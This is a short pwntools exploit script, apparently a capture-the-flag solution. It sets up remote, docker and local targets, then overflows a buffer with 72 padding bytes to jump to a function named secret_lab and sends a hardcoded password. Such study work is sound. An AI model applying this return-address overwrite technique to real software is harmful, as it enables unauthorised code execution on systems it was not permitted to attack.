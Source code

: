 ```py
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.DOCKER:
        docker_port = sys.argv[1]
        docker_path = sys.argv[2]
        p = remote("localhost", docker_port)
        sleep(1)
        pid = process(["pgrep", "-fx", docker_path]).recvall().strip().decode()
        gdb.attach(int(pid), gdbscript=gdbscript, exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''


b*main+250
# b*0x0000000000401548
c
'''.format(**locals())

p = init()

# ==================== EXPLOIT ====================


def choice(option):

    sla(b'choice: ', f'{option}'.encode())


def exploit():

    choice(1)
    sl(b'A' * 72 + p64(exe.sym.secret_lab+1))
    sl(b'qu4ntumR3ality')

    interactive()

if __name__ == '__main__':
    exploit()
```
